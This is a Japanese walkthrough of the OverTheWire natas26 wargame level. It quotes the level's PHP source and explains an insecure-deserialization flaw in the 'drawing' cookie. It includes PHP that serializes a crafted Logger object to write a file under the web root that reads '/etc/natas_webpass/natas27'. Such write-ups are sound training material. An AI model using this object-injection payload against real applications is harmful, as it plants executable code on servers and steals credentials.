



  

X1,Y1,X2,Y2の入力欄があり適当に1,2,3,4と入力してみる。  

  

左上に赤い線がある、X1~Y2は座標を表しているということだろうか。  


ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "<censored>" };</script></head>
<body>
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);

                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }

?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

コードを見てみると先程のX1~Y2は以下のところで直線を描画しているとわかる。  
```
 imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
```

X1 最初の点のx座標  
Y1 最初の点のy座標  
X2 二番目の点のx座標  
Y2 二番目の点のY座標  
ということになる。  


フロントエンドが何かわかったので欠陥を探していく。  


ここが怪しい  
```
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

unserialize()の関数があったらデシリアライゼーションの欠陥を疑えと教わっている。  

送られてきたCookieの値をそのままunserialize()に渡しているので欠陥がある。  

やってみる。  

以下のコードを見てみる。  
```
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
```


Loggerクラスが定義されており、  
オブジェクト生成時に`__construct()`が呼ばれ、  
デシリアライズするときマジックメソッドの`__wakeup()`が呼ばれ、  
オブジェクトが破棄されるタイミングで`__destruct()`が呼ばれる。 

プロパティ（メンバ変数）としてlogFile, initMsg, exitMsgがありこれらの値を自由に書き換えられる。  
計画は、exitMsgにフラグが書かれている`/etc/natas_webpass/natas27`のファイルを読み取るphpコードを、  
logFileにWebの公開ディレクトリのパスを格納させる。  

以下にそれらを可能にするphpコードを作成する。  

```
<?php

class Logger {
	private $logFile;
	private $exitMsg;
	
	function __construct(){
		$this->exitMsg = "<?php readfile('/etc/natas_webpass/natas27'); ?>";
		$this->logFile = "/var/www/natas/natas26/img/er.php";
	}
}

$obj = new Logger();
echo base64_encode(serialize($obj));

?>
```

これでbase64でencodeされシリアライズされたオブジェクトが表示される。  

これをCookieのdrawingパラメータに置き換えてリクエストを送る。  

  

その後に`http://natas26.natas.labs.overthewire.org/img/er.php`へアクセスするとphpコードが実行され`/etc/natas_webpass/natas27`の内容が見られる。  


クリア


